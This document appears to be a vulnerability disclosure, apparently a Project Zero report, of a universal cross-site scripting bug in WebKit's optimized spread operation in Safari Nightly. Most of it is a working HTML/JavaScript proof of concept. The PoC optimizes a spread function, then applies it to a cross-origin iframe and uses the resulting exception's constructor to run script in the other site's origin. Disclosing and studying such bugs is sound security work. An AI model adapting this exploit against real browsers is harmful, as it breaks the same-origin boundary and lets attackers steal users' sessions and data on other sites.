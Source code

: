 # UXSS via operationSpreadGeneric
### Reported by lokihardt@google.com, Jan 20 2017

Once a spread operation is optimized, the function |operationSpreadGeneric| will be called from then on. But operationSpreadGeneric's trying to get a JSGlobalObject from the argument of a spread operation.

It seems that that optimization is not implemented to the release version of Safari yet.

Tested on the Nighly 10.0.2(12602.3.12.0.1, r210957)

PoC:
```html
<body>
<script>

'use strict';

function spread(a) {
    return [...a];
}

let arr = Object.create([1, 2, 3, 4]);
for (let i = 0; i < 0x10000; i++) {
    spread(arr);
}

let f = document.body.appendChild(document.createElement('iframe'));
f.onload = () => {
    f.onload = null;

    try {
        spread(f.contentWindow);
    } catch (e) {
        e.constructor.constructor('alert(location)')();
    }
};

f.src = 'https://abc.xyz/';

</script>
</body>
```

https://bugs.chromium.org/p/project-zero/issues/detail?id=1094
